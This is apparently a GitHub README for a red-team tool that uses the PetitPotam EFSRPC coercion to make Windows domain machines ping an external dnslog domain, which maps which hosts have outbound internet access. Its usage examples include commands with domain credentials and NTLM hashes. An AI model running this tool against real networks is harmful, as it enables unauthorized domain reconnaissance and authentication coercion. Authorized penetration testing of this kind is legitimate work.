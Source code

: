 # EFSRPCrpc

在域渗透场景中，利用EFSRPC协议(PetitPotam)通过PING外网域名的方式批量探测windows出网机器

> 免责声明：此工具仅限于安全研究，用户承担因使用此工具而导致的所有法律和相关责任！作者不承担任何法律责任！

## 使用说明
* 默认通过lsarpc管道触发EFSRPC接口,可通过`-pipe`参数指定管道  {efsr,lsarpc,samr,netlogon,lsass}
* 在windows 2008和Windows 2012的环境以下，无需域内凭证；其他windows版本利用需要一个普通域内凭证

### 使用范例

```python
# 指定target
python efsrpcrpc.py -d test.lab  -dc-ip 192.168.12.250  -u admin -hashes f26fb3ae03e93ab9c81667e9d738c5d9:47bf8039a8506cd67c524a03ff84ba4e -target 192.168.12.200 -dnslog test.dnslog.cn
```

```python
# 从文件中读取target
python efsrpcrpc.py -d test.lab  -dc-ip 192.168.12.250  -u admin -p Aa123456  -file file.txt -dnslog test.dnslog.cn
```

```python
# 默认通过ldap查询所有域机器的DNS为target，批量PING外网dnslog域名
python efsrpcrpc.py -d test.lab  -dc-ip 192.168.12.250 -u admin -p Aa123456 -dnslog test.dnslog.cn
```


## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描和攻击。**

**如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，作者将不承担任何法律及连带责任。**

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。


# Reference

https://github.com/fortra/impacket/tree/master      
https://github.com/XiaoliChan/PetitPotam-V2


# 安恒-星火实验室

<h1 align="center">
  <img src="img/starfile.jpeg" alt="starfile" width="200px">
  <br>
</h1>

专注于实战攻防与研究，研究涉及实战攻防、威胁情报、攻击模拟与威胁分析等，团队成员均来自行业具备多年实战攻防经验的红队、蓝队和紫队专家。本着以攻促防的核心理念，通过落地 ATT&CK 攻防全景知识库，全面构建实战化、常态化、体系化的企业安全建设与运营。

